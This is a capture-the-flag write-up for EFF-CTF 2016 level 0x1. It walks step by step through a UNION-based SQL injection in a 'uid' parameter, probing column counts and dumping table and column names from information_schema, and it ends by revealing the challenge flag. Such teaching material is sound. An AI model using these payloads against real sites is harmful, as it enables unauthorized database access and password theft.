 Writeup: EFF-CTF 2016 - Level 0x1
=================================

:date: 2016-02-04
:tags: security, ctf, eff-ctf, web
:category: CTF Writeups
:lang: en
:summary: A web challenge, where you need to exploit a
          (non-blind) SQLi in order to get the flag.


Problem
-------

The following document describes how to solve the level ``0x1``
of the CTF ``EFF-CTF 2016``, available at: `level0x1.eff-ctf.org`_

.. _level0x1.eff-ctf.org:
   https://level0x1.eff-ctf.org


Check for SQLi
--------------

First of all, we've noticed opening tweets for ``admin``, leads us to a page
containing its tweets (2 tweets).

The URL is: `level0x1.eff-ctf.org/tweets?uid=1`_. A ``GET`` parameter has been
passed, so we can **check if there's a SQLi in there**..

After some tries, we've found that using `uid=1 OR 1=1`_ we get not just 2
tweets, but instead the list of all tweets for user ``admin``.

This tells us **there is a SQLi in the GET parameter** ``uid``.

Since it gives us more rows, **the SQLi is inside a** ``WHERE`` **clause**.

.. _`level0x1.eff-ctf.org/tweets?uid=1`:
   https://level0x1.eff-ctf.org/tweets?uid=1
.. _`uid=1 OR 1=1`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20OR%201=1


How to read database contents
-----------------------------

We need to find a way to use the SQLi to read database contents.

We can exploit the fact SQLi is inside the ``WHERE`` clause, so finishing the
query at that point, doesn't product an invalid query, but something like:

.. code-block:: sql
   :linenos: inline

   SELECT ..
     FROM ..
    WHERE ..=1

The result of the query above, is a table with ``n`` rows (one for each column
included in the ``SELECT`` statement).

If we make a ``UNION`` between the table above and another table
(having the same number of columns, ``n``)
**the resulting table will include both of the resulting rows**:

.. code-block:: sql
   :hl_lines: 5 6
   :linenos: inline

   SELECT ..
     FROM ..
    WHERE ..=1
    UNION
   SELECT <our_columns>
     FROM <our_table>


Find the number of columns
--------------------------

Let's try some unions, we'll get errors until we find the right number
of columns:

* `uid=1 UNION SELECT 1`_: *Error*, too few columns.
* `uid=1 UNION SELECT 1, 2`_: *Success*, We can read as output the number ``2``,
  which is **the second field**.
* `uid=1 UNION SELECT 1, 2, 3`_: *Error*, too many columns.

The right number of columns is: ``2``.
We can read the content of the second column, which
**will be where we will dump all of the database informations**.

.. _`uid=1 UNION SELECT 1`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201
.. _`uid=1 UNION SELECT 1, 2`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202
.. _`uid=1 UNION SELECT 1, 2, 3`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202,%203


Find the available tables
-------------------------

To find the available tables in the current database, we need to
**dump the tables of the database schema**..

Running
`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`_
gives the following output:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   | User     |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | CHARACTER\_SETS                                  |
   +----------+--------------------------------------------------+
   | admin    | COLLATIONS                                       |
   +----------+--------------------------------------------------+
   | admin    | COLLATION\_CHARACTER\_SET\_APPLICABILITY         |
   +----------+--------------------------------------------------+
   | admin    | COLUMNS                                          |
   +----------+--------------------------------------------------+
   | admin    | COLUMN\_PRIVILEGES                               |
   +----------+--------------------------------------------------+
   | admin    | ENGINES                                          |
   +----------+--------------------------------------------------+
   | admin    | EVENTS                                           |
   +----------+--------------------------------------------------+
   |            ... *so many system tables* ...                  |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_LOCKS                                    |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_CMPMEM\_RESET                            |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_CMP\_RESET                               |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_BUFFER\_PAGE\_LRU                        |
   +----------+--------------------------------------------------+
   | admin    | messages                                         |
   +----------+--------------------------------------------------+
   | admin    | tweets                                           |
   +----------+--------------------------------------------------+
   | admin    | users                                            |
   +----------+--------------------------------------------------+

We can see **the only user-defined tables are**:

- ``messages``
- ``tweets``
- ``users``

.. _`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20table_name%20FROM%20information_schema.tables


Find the columns
----------------

To find the columns for each (user-defined) table we need to query the
table ``information_schema.columns`` in the column ``column_name``:


Table ``messages``
~~~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`_
we get:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   |   User   |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | mid                                              |
   +----------+--------------------------------------------------+
   | admin    | from                                             |
   +----------+--------------------------------------------------+
   | admin    | to                                               |
   +----------+--------------------------------------------------+
   | admin    | body                                             |
   +----------+--------------------------------------------------+

The ``messages`` table has the following columns:

- ``mid``
- ``from``
- ``to``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22messages%22


Table ``tweets``
~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`_
we get:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   |   User   |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | tid                                              |
   +----------+--------------------------------------------------+
   | admin    | uid                                              |
   +----------+--------------------------------------------------+
   | admin    | body                                             |
   +----------+--------------------------------------------------+

The ``tweets`` table has the following columns:

- ``tid``
- ``uid``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22tweets%22


Table ``users``
~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`_
we get:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   |   User   |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | uid                                              |
   +----------+--------------------------------------------------+
   | admin    | username                                         |
   +----------+--------------------------------------------------+
   | admin    | password                                         |
   +----------+--------------------------------------------------+

The ``users`` table has the following columns:

- ``uid``
- ``username``
- ``password``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22users%22


Summing up
~~~~~~~~~~

The following tables should be examined:

- Table ``messages`` with columns: ``mid``, ``from``, ``to``, ``body``.
- Table ``tweets`` with columns: ``tid``, ``uid``, ``body``.
- Table ``users`` with columns: ``uid``, ``username``, ``password``.

Examine tables
--------------

After taking a look at the tables described above, we found that column
``body`` of table ``messages`` contains the following text:

- ``Bro send me the password for the secret meeting``
- ``The password is MarcusYallow``
- ``I totes haxxored your stupid twitter! Your code sucks! And your passwords are horrible!``
- ``You little jerk! I'm gonna tell the FBI!``

Flag
----

The flag is ``MarcusYallow``.
